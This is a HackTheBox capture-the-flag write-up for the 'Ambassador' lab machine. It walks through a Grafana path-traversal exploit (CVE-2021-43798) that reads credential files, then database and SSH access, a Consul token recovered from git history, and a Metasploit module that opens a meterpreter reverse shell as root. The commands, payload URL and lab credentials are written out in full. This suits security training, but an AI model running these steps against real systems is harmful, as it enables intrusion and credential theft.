




# Ambassador - HackTheBox - Writeup
Linux, 30 Base Points, Medium


## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22` and `80`, `3000`, and `3306`.

***User***: Exploiting a vulnerability (`CVE-2021-43798`) in the `Grafana` software, we were able to obtain the database and admin web credentials. Using these credentials, we were able to access the `MySQL` database and retrieve the `developer` user's credentials.

***Root***: By discovering the `whackywidget` application directory on the `/opt/my-app/` path, rolling back to a previous Git commit to obtain the `consul` token, and utilizing the `consul_service_exec` module in `Metasploit`, we were able to achieve remote code execution with root privileges.
 


## Ambassador Solution

### User

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ nmap -sV -sC -oA nmap/Ambassador 10.10.11.183
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-13 12:55 IST
Nmap scan report for 10.10.11.183
Host is up (0.100s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 29:dd:8e:d7:17:1e:8e:30:90:87:3c:c6:51:00:7c:75 (RSA)
|   256 80:a4:c5:2e:9a:b1:ec:da:27:64:39:a4:08:97:3b:ef (ECDSA)
|_  256 f5:90:ba:7d:ed:55:cb:70:07:f2:bb:c8:91:93:1b:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Ambassador Development Server
|_http-generator: Hugo 0.94.2
|_http-server-header: Apache/2.4.41 (Ubuntu)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 13 Nov 2022 10:56:28 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 13 Nov 2022 10:55:56 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Sun, 13 Nov 2022 10:56:01 GMT
|_    Content-Length: 0
3306/tcp open  mysql   MySQL 8.0.30-0ubuntu0.20.04.2
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.30-0ubuntu0.20.04.2
|   Thread ID: 10
|   Capabilities flags: 65535
|   Some Capabilities: SupportsLoadDataLocal, Support41Auth, Speaks41ProtocolNew, ConnectWithDatabase, FoundRows, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, SupportsTransactions, ODBCClient, IgnoreSpaceBeforeParenthesis, LongColumnFlag, LongPassword, IgnoreSigpipes, InteractiveClient, SupportsCompression, DontAllowDatabaseTableColumn, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x06-\x0B-_wr\x10P{3I?JHf\x16%\x18|
|_  Auth Plugin Name: caching_sha2_password
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:



On port `3000`, we can see the web application `Grafana`:



By researching exploits for `Grafana` version `8.2.0 (d7f71e9eae)` server, we found the following exploit: https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798. Let's use it:

```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ cat targets.txt 
http://10.10.11.183:3000
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ python3 exploit.py 
  _____   _____   ___ __ ___ _     _ _ ________ ___ ___ 
 / __\ \ / / __|_|_  )  \_  ) |___| | |__ /__  / _ ( _ )
| (__ \ V /| _|___/ / () / /| |___|_  _|_ \ / /\_, / _ \
 \___| \_/ |___| /___\__/___|_|     |_|___//_/  /_/\___/
                @pedrohavay / @acassio22

? Enter the target list:  targets.txt

========================================

[i] Target: http://10.10.11.183:3000

[!] Payload "http://10.10.11.183:3000/public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd" works.

[i] Analysing files...

[i] File "/conf/defaults.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/defaults.ini".

[i] File "/etc/grafana/grafana.ini" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.ini".

[i] File "/etc/passwd" found in server.
[*] File saved in "./http_10_10_11_183_3000/passwd".

[i] File "/var/lib/grafana/grafana.db" found in server.
[*] File saved in "./http_10_10_11_183_3000/grafana.db".

[i] File "/proc/self/cmdline" found in server.
[*] File saved in "./http_10_10_11_183_3000/cmdline".

? Do you want to try to extract the passwords from the data source?  Yes

[i] Secret Key: SW2YcwTIb9zpOOhoPsMm

```

By using the exploit, we were able to access the information from the `Grafana` server. By examining the file `grafana.ini`, we were able to obtain the admin credentials:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador/http_10_10_11_183_3000]
└──╼ $ cat grafana.ini | grep password
# You can configure the database connection by specifying type, host, name, user and password
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =
# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
;password_hint = password
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password =
; basic_auth_password =
;password =

```

By using the credentials `admin:messageInABottle685427`, we were able to access the Grafana dashboard as shown in the provided image:



Additionally, we were able to obtain the database credentials:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador/http_10_10_11_183_3000]
└──╼ $ ls
cmdline  defaults.ini  grafana.db  grafana.ini  passwd
┌─[evyatar9@parrot]─[/hackthebox/Ambassador/http_10_10_11_183_3000]
└──╼ $ sqlite3 grafana.db 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              ngalert_configuration     
alert_notification          org                       
alert_notification_state    org_user                  
alert_rule                  playlist                  
alert_rule_tag              playlist_item             
alert_rule_version          plugin_setting            
annotation                  preferences               
annotation_tag              quota                     
api_key                     server_lock               
cache_data                  session                   
dashboard                   short_url                 
dashboard_acl               star                      
dashboard_provisioning      tag                       
dashboard_snapshot          team                      
dashboard_tag               team_member               
dashboard_version           temp_user                 
data_source                 test_data                 
kv_store                    user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from data_source;
2|1|1|mysql|mysql.yaml|proxy||dontStandSoCloseToMe63221!|grafana|grafana|0|||0|{}|2022-09-01 22:43:03|2022-11-13 10:54:50|0|{}|1|uKewFgM4z
sqlite>
```

Let's use the DB credentials:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ mysql -h 10.10.11.183 -u grafana -D grafana -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 55
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [grafana]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.070 sec)
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.073 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.071 sec)

MySQL [whackywidget]>
```

and were able to retrieve the base64 encoded password for the `developer` user `anEnglishManInNewYork027468`.

We were able to login to the server using SSH:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ ssh developer@10.10.11.183
The authenticity of host '10.10.11.183 (10.10.11.183)' can't be established.
ECDSA key fingerprint is SHA256:+BgUV7q/7f6W3/1eQWhIKW2f8xTcBh3IM0VwbIAp2A8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.183' (ECDSA) to the list of known hosts.
developer@10.10.11.183's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 13 Nov 2022 09:19:58 PM UTC

  System load:           0.1
  Usage of /:            81.0% of 5.07GB
  Memory usage:          40%
  Swap usage:            0%
  Processes:             227
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.183
  IPv6 address for eth0: dead:beef::250:56ff:feb9:a2d3


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$ cat user.txt 
04675e8d3bc88ad97c57800215f06fc0
```

And we get the user flag ```04675e8d3bc88ad97c57800215f06fc0```.

### Root

While exploring the server's directories, we found the directory `/opt/my-app`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ developer@ambassador:/opt/my-app$ ls -ltra
total 24
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
```

We found a `.git` directory. By examining the `git log`, we can see the version history of the code in this repository:
```console
developer@ambassador:/opt/my-app$ git log
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

commit c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:44:45 2022 +0000

    config script

commit 8dce6570187fd1dcfb127f51f147cd1ca8dc01c6
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:47:01 2022 +0000

    created project with django CLI

commit 4b8597b167b2fbf8ec35f992224e612bf28d9e51
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
```

The file put-config-in-consul.sh in the whackywidget directory contains the following content: 
```console
developer@ambassador:/opt/my-app$ cd whackywidget/
developer@ambassador:/opt/my-app/whackywidget$ ls
manage.py  put-config-in-consul.sh  whackywidget
developer@ambassador:/opt/my-app/whackywidget$ cat put-config-in-consul.sh 
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

The code in the `put-config-in-consul.sh` file references [consul](https://github.com/hashicorp/consul), which is a tool for connecting and configuring applications across dynamic and distributed infrastructure.

We can use the `git checkout` command to view previous versions of the code and see what changes were made in that commit.

This could potentially reveal sensitive information or vulnerabilities that were present in an earlier version of the code:
```console
developer@ambassador:/opt/my-app/whackywidget$ git checkout  c982db8eff6f10f8f3a7d802f79f2705e7a21b55
fatal: Unable to create '/opt/my-app/.git/index.lock': Permission denied
```

We can copy the `/opt/my-app` directory to `/tmp` by using the `cp` command. This will allow us to access the contents of the directory without having the necessary permissions on the `/opt` directory:
```console
developer@ambassador:/tmp$ cp -r /opt/my-app/ .
developer@ambassador:/tmp$ cd my-app/
developer@ambassador:/tmp/my-app$ ls
env  whackywidget
developer@ambassador:/tmp/my-app$ git checkout  c982db8eff6f10f8f3a7d802f79f2705e7a21b55
Note: switching to 'c982db8eff6f10f8f3a7d802f79f2705e7a21b55'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at c982db8 config script

```

Now we can check the file again:
```console
developer@ambassador:/tmp/my-app$ cd whackywidget/
developer@ambassador:/tmp/my-app/whackywidget$ ls
manage.py  put-config-in-consul.sh  whackywidget
developer@ambassador:/tmp/my-app/whackywidget$ cat *.sh
# We use Consul for application config in production, this script will help set the correct values for the app
# Export MYSQL_PASSWORD before running

consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

We can observe the `consul` token.

By executing the command `netstat,` we can identify that port `8500` is actively listening, which is the default port utilized by `Consul`.

To potentially compromise `Consul`, one could utilize the exploit available at this link: https://www.exploit-db.com/exploits/46074.

Before utilizing the exploit, it may be necessary to establish an SSH tunnel to the target port `8500` using the following command:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ ssh -L 8500:127.0.0.1:8500 developer@10.10.11.183
developer@10.10.11.183's password: 

```

Now we can use `metasploit`:
```console
┌─[evyatar9@parrot]─[/hackthebox/Ambassador]
└──╼ $ msfconsole
...
[msf](Jobs:0 Agents:0) >> use multi/misc/consul_service_exec
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> options 

Module options (exploit/multi/misc/consul_service_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACL_TOKEN                   no        Consul Agent ACL token
   Proxies                     no        A proxy chain of format type:host:port[,type:ho
                                         st:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapi
                                         d7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8500             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen o
                                         n. This must be an address on the local machine
                                          or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ra
                                         ndomly generated)
   TARGETURI  /                yes       The base path
   URIPATH                     no        The URI to use for this exploit (default is ran
                                         dom)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> set ACL_TOKEN bb03b43b-1d81-d62b-24b5-39540ee469b5
ACL_TOKEN => bb03b43b-1d81-d62b-24b5-39540ee469b5
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> set LHOST 10.10.14.14
LHOST => 10.10.14.14
```

Run the exploit:
```console
[msf](Jobs:0 Agents:0) exploit(multi/misc/consul_service_exec) >> exploit

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] Creating service 'vZRXJm'
[*] Service 'vZRXJm' successfully created.
[*] Waiting for service 'vZRXJm' script to trigger
[*] Sending stage (1017704 bytes) to 10.10.11.183
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.11.183:50082) at 2022-11-15 22:39:26 +0200
[*] Removing service 'vZRXJm'
[*] Command Stager progress - 100.00% done (763/763 bytes)

(Meterpreter 1)(/) > shell
Process 2013 created.
Channel 1 created.
whoami
root
cat /root/root.txt
1634e240f55920531084b8553221b529
```

And we get the root flag ```1634e240f55920531084b8553221b529```.
